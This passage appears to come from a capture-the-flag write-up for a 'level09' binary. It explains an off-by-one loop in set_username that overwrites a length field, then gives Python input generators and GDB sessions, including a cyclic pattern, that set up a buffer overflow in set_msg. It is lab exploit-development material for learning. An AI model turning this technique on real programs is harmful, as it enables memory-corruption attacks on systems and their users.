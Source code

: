 ```clike=
}

int main()
{
        puts("--------------------------------------------\n|   ~Welcome to l33t-m$n ~    v1337        |\n--------------------------------------------");
    return 0;
}
```
Looking at the code, there may be a chance at overflowing `var1->msg` since `strncpy(var1->message, temp, var1->msglen);` does not copy the nullbyte over. However, there are no operations after that action so I dont this it affects the program.

However upon closer inspection, I noticed that in `set_username`, the while loop is ran 41 times instead of 40, which will cause an overwrite on the first byte of `var1->msglen` To verify this, we can look into GDB. As we can see, the first image contains the original value in the rdx register, but the second image shows the overwritten value.

```
# prep input
python -c "print 'B' * 41 + '\n' + 'i' * 100" > /tmp/level09

# launch gdb
gdb level09
b *0x00005555555549c6
lay asm
focus cmd
tty /dev/pts/1
set disassembly-flavor intel
run < /tmp/level09
```
![image](https://hackmd.io/_uploads/B13p_0-Dp.png)

![image](https://hackmd.io/_uploads/H1XHuRWwp.png)

Now, if we change rdx to `0xff` or 255, we should be able to overflow the message variable later when we strncpy in `set_msg`. 

```
# prep input
python -c "print '\xff' * 41 + '\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4'" > /tmp/level09

# launch gdb
gdb level09
b *0x55555555491f
b *0x555555554924
lay asm
focus cmd
tty /dev/pts/1
set disassembly-flavor intel
run < /tmp/level09
```
